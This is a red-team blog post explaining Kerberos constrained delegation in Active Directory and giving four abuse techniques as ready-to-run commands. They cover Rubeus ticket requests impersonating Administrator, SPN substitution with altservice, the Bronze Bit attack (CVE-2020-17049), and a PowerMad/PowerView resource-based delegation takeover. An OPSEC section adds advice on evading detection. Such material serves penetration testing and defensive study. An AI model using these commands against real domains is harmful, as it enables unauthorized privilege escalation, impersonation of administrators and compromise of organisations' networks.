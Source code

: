 ```yaml
---
title: 4 Ways to Abuse Constrained Delegation
date: 2022-03-15 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Various attack prototypes for Constrained Delegation Abuse
---
```


# Constrained Delegation

- [Attack Variants](#attack-variants)
	- [Basic Constrained Delegation Exploitation](#Basic-Constrained-Delegation-Exploitation)
	- [Alternate Service Name Abuse](#alternate-service-name-abuse)
	- [Bronze Bit Attack](#bronze-bit-attack)
	- [Abusing Resource Based Constrained Delegation](#abusing-resource-based-constrained-delegation)
- [OPSEC](#opsec)
- [Resources](#resources)

- **Constrained Delegation** was soon released after unconstrained delegation as a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.
- To impersonate the user, *Service for User (S4U)* extensions are used which provides two extensions:
	- **Service for User to Self (S4U2self)** - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl* attribute.
	- **Service for User to Proxy (S4U2proxy)** - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by *msDS-AllowedToDelegateTo* attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.
	![](Constrained1.png)
- To perform the delegation, we ultimately need the TGT of the principal (**machine or user**) trusted for delegation. We can extract it from a machine (Rubeus dump) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt`).
> NOTE: Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.
1. Enumerate users/computers with constrained Delegation
	- In Bloodhound: 
		- Users `MATCH (c:User), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p`
		- Computers: `MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p`
	- In Powerview:
		- Users: `Get-DomainUser –TrustedToAuth`
		- Computers: `Get-DomainComputer –TrustedToAuth`
	- Using ADModule enumerate both computers and users: `Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo`

------------------------------------------------------

# Attack Variants

## Basic Constrained Delegation Exploitation

1. To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation.  We can extract it from a machine (Rubeus `dump`) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekey`s + Rubeus `asktgt)`: `.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E`
2. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to the allowed SPN: `.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /ptt`

## Alternate Service Name Abuse

- Another interesting issue in Kerberos is that the delegation occurs not only for the specified service on the target machine but for any service running on the machine under the same account name. There is no validation for the SPN specified in s4u. 
- This is huge as it allows access to many interesting services such as `CIFS` when the delegation may be for a non-intrusive service like `TIME`.
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to an alternate SPN: `.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /altservice:cifs /ptt`

## Bronze Bit Attack

- *CVE-2020-17049* - An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users group** and any other users explicitly configured as sensitive and cannot be delegated.
- Patch is out on November 10, 2020, DC are most likely vulnerable until *February 2021*.
> Patched Error Message : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`
1. Use `s4u2self` and `s4u2proxy` to impersonate a user who is protected from delegation: `.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /bronzebit /ptt`
2. This attack can also be chained with the `altservice` attack to delegate to an alternate SPN: `.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /bronzebit /altservice:cifs /ptt`

## Abusing Resource Based Constrained Delegation
- It's possible to gain code execution with elevated privileges on a remote computer if you have *WRITE* privilege on that computer's AD object.
- Resource-Based Constrained Delegation (RBCD) configures the backend server (e.g. MSSQL) to allow only selected frontend services (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.
- DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the frontend service) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the backend service. This means that the frontend service needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.
- If we compromise a frontend service that appears in the RBCD property of a backend service, exploitation is the same as with constrained delegation above. This is however not too common.
- A more often-seen attack to RBCD is when we have *GenericWrite, GenericAll, WriteProperty, or WriteDACL* permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.
1. Create a new machine account using PowerMad: `New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)`
2. Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target: `$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid; $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"; $SDbytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDbytes,0)`
3. Use PowerView to use our `GenericWrite` (or similar) priv to apply this SD to the target: `Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
4. Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target: `.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt`

-----------------------------------------------------

# OPSEC

- We should request TGTs with the AES keys (`/aes256:a561a175e395758550c912......`) rather than NTLM hash.
- Rubeus also has an `/opsec` argument which tells it to send the request without *pre-auth*, to more closely emulate genuine Kerberos traffic.

-----------------------------------------------------

# Resources

1. https://courses.zeropointsecurity.co.uk/courses/red-team-ops
2. https://www.pentesteracademy.com/activedirectorylab
3. https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
4. https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference






